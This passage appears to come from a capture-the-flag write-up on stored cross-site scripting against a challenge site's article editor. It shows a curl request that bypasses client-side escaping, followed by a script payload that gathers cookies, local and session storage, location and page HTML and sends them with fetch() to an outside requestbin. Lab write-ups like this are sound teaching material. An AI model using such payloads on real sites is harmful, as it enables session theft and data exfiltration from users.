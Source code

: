 ```html
```

So let's try pasting this code into the rich-editor and then sending our "article". Nothing happened... Let's copy our request as `curl` using browser's devtools. What we get (data decoded):
```
curl 'http://web.kazet.cc:31339/send_article' \
  -H <some boring headers...>
  .
  .
  .
  --data-raw '<p>&lt;script&gt;</p><p>&nbsp;+&nbsp;+//+Do+something+as+editor</p><p>&nbsp;+&nbsp;+/*+...+*/</p><p><br>&nbsp;</p><p>&nbsp;+&nbsp;+//+Store+the+results</p><p>&nbsp;+&nbsp;+const+data+=+{+content:+"Hello+it's+editor!!!"+};</p><p><br>&nbsp;</p><p>&nbsp;+&nbsp;+//+Send+the+results+to+our+requestbin</p><p>&nbsp;+&nbsp;+fetch('https://eozy3pwhxz589s.m.pipedream.net',+{</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+method:+'POST',</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+headers:+{</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+&nbsp;+&nbsp;+'Content-Type':+'application/json',</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+},</p><p>&nbsp;+&nbsp;+&nbsp;+&nbsp;+body:+JSON.stringify(data),</p><p>&nbsp;+&nbsp;+});</p><p>&lt;/script&gt;</p>' \
  --compressed \
  --insecure
```

So `<script>` is being translated to `&lt;script&gt;`. No worries, let's just reach this endpoint directly from terminal using `curl`. This way we won't let any client-side precautions get in our way. Simply encode the content and provide it as an argument to `--data-raw` curl argument.  
And now it works! We received hello from editor.

Let's retrieve some data that may interest us with a following script:
```html
<script>
    // Retrieve cookies, storage, location and HTML source
    const data = {
        cookies: document.cookie,
        lStorage: window.localStorage,
        sStorage: window.sessionStorage,
        location: window.location,
        source: document.documentElement.innerHTML
    }; 

    // Send the results to our requestbin
    fetch('https://eozy3pwhxz589s.m.pipedream.net', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json',
        },
        body: JSON.stringify(data),
    });
</script>
```

No luck in retrieving session cookie. `cookies`, `lStorage` and `sStorage` are empty. The session cookie must be set using `HttpOnly` flag, so it's not accessible from JS.  
